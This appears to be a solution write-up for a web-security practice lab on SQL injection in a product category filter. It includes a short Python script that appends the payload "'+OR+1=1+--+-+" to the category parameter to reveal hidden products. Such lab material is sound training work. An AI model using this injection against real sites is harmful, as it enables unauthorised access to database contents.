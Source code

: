 ### Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

This lab contains an **SQL injection** vulnerability in the product category filter. When the user selects a category, the application carries out an SQL query like the following:

`SELECT * FROM products WHERE category = 'Gifts' AND released = 1`

To solve the lab, perform an SQL injection attack that causes the application to display details of all products in any category, both released and unreleased.

```python
import requests
import sys

if len(sys.argv) != 2:
    print(f"[+] USAGE : {sys.argv[0]} <URL of the lab>")
    sys.exit(1)

#SQLi is in `category` parameter of `/filter` directory 
URL = sys.argv[1] + "/filter?category=Pets"

print(f"Requesting {URL}")
response = requests.get(URL) # Query becomes like : SELECT * FROM Products WHERE category = 'Pets';
print(f"Original Page length : {len(response.text)}")

#creating malicious URL
URL = URL + "'+OR+1=1+--+-+" #Query becomes like : SELECT * FROM Products WHERE category = 'Pets' OR 1=1 -- - 
print(f"Requesting {URL}")
response = requests.get(URL)
print(f"After SQLi, page length : {len(response.text)}") #Should be greater than the original query

print("SQLi Successfull!!") #Since the content length of both requests are different.
```


